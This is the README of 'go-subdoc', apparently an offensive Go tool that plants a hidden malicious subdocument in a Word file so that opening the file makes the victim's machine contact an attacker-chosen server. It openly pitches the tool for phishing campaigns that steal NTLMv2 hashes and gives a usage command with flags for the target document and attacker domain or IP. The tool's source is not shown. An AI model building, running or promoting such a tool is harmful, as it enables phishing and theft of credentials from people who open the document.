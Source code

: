 # go-subdoc
A tool made in Go that injects a hidden malicious subdoc in a Word document.  
This comes in handy on phishing campaigns for stealing the NTLMv2 hash.

Tested on Microsoft Office 2016 and 2019. Not guarateed to work on the latest Microsoft Office 365 version.

## Usage
```
go-subdoc -input target.docx/docm -target example.com/127.0.0.1
```

```
  -input string
        Target document
  -target string
        Target server (only domain / ip address)
```

Please input only either a domain or an IP Address as the target. No UNC paths or locations.
